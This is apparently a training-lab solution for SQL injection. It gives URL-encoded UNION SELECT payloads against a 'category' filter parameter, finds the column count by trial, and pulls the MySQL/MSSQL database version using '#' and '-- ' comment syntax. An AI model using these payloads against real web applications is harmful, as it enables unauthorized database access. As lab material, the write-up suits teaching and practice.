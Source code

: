 # lab-querying-database-version-mysql-microsoft

## Solution 1 (MySQL)
Comment sign is "#" (%23 url-encoded).

`/filter?category=Lifestyle'+UNION+SELECT+NULL%23`: Internal Server Error

`/filter?category=Lifestyle'+UNION+SELECT+NULL,+NULL%23`: Ok (2 columns)

`/filter?category=Lifestyle'+UNION+SELECT+@@version,+NULL%23`: Solved

## Solution 2 (MySQL & MSSQL)
MySQL comment has the space after double dash (-- something):

`/filter?category=Pets'+UNION+SELECT+@@version,+NULL--+1`: Solved
